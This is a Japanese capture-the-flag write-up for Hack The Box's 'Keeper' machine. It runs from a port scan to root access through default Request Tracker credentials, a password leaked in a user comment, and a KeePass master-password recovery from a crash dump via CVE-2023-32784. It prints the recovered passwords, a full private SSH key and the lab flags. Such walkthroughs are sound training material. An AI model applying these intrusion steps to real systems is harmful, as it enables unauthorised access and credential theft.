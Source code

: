 https://app.hackthebox.com/machines/Keeper

## STEP 1
```sh
└─$ rustscan -a 10.129.190.164 --no-banner --scripts none
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.190.164:22
Open 10.129.190.164:80
10.129.190.164 -> [22,80]
```


## STEP 2
80番にアクセス  
別のurlにアクセスするよう言われている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_01.png">  
/etc/hosts/を編集
```sh
└─$ echo '10.129.229.41 tickets.keeper.htb' | sudo tee -a /etc/hosts
10.129.229.41 tickets.keeper.htb
```
再度アクセス  
[リンク](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword)よりデフォルトクレデンシャル root/password が判明、ログインできた　　
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_02.png">  
Adminタブから lnorgaard というユーザを確認できるが、コメントからパスワードが「Welcome2023!」と判明した  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_03.png">  
22番が開いていたので、先ほどのクレデンシャルでsshログイン成功！ユーザフラグゲット
```sh
└─$ ssh lnorgaard@10.129.190.164    
The authenticity of host '10.129.190.164 (10.129.190.164)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.190.164' (ED25519) to the list of known hosts.
lnorgaard@10.129.190.164's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
86a82b35f5d9dbf56d69283eafbf4ff7
```


## STEP 3
ユーザフラグと同フォルダ内に、zipがあったのでkaliにダウンロード
```sh
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt

lnorgaard@keeper:~$ exit
logout
Connection to 10.129.190.164 closed.

└─$ scp lnorgaard@10.129.190.164:/home/lnorgaard/RT30000.zip .
lnorgaard@10.129.190.164's password: 
RT30000.zip
```
zipには、メモリダンプファイルと.kdbxがあった  
kdbxはkeepass（パスワード管理ツール）のパスワードが入ったファイルだそう
```sh
└─$ unzip RT30000.zip                  
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx

└─$ file KeePassDumpFull.dmp                                                                                 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type            

└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
```
.kdbxを開くにはkaliでは「keepass2」コマンドでできる  
実際に開くとパスワードが必要っぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_04.png">  
パスワードをクラックしてみたが、失敗．．．
```sh
└─$ keepass2john passcodes.kdbx > keepass.txt

└─$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass keepass.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:23 DONE (2025-07-12 07:25) 0g/s 153.5p/s 153.5c/s 153.5C/s notused..sss
Session completed.
```
先ほどのブラウザで、keepassのissueに関するチケットを lnorgaard が作成したこと確認  
とういことはzip内のメモリダンプはkeepassのクラッシュダンプね  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_05.png">  
ここでkeepassには、CVE-2023-32784が存在しクラッシュダンプからパスワードを復元できる脆弱性があるらしい  
PoCを試してみると文字列は抽出できたが、何文字が欠落しているっぽい
```sh
└─$ wget -nv https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
2025-07-12 10:30:42 URL:https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py [14948/14948] -> "keepass_dump.py" [1]

└─$ python3.13 keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
ぐぐってみると、「rødgrød med fløde」の文字を発見  
deeplで翻訳してみるとデンマーク語らしい、どうやって入力するねん  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_06.png">  
「rødgrød med fløde」で開くことができた、どうやらputty形式のssh秘密鍵が保存されている
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_07.png">  
putty形式のssh秘密鍵を保存
```sh
└─$ cat putty                                                                                                           
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
ssh秘密鍵に変換してrootログイン成功！ルートフラグゲット！
```sh
└─$ puttygen putty -O private-openssh -o ida_rsa

└─$ ssh -i ida_rsa root@10.129.190.164
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
dd05820dc970d89af4d2893b0b9a3027
```
